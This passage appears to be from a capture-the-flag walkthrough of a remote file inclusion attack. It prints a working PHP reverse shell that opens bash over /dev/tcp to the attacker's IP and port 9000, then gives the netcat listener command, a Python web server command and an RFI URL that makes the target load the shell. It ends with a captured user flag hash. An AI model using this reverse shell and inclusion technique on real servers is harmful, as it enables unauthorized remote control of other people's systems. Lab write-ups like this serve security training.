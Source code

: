 ## Remote File Inclusion
* creating php reverse shell file

```
<?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/10.18.79.167/9000 0>&1'")
?>
```

* start up python http server - `python -m http.server 80`
* `nc -nlvp 9000`
* tweaking our previous link to attempt RFI
* `http://10.10.151.221/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.18.79.167/shell.php`
* user.txt - `7ce5c2109a40f958099283600a9ae807`
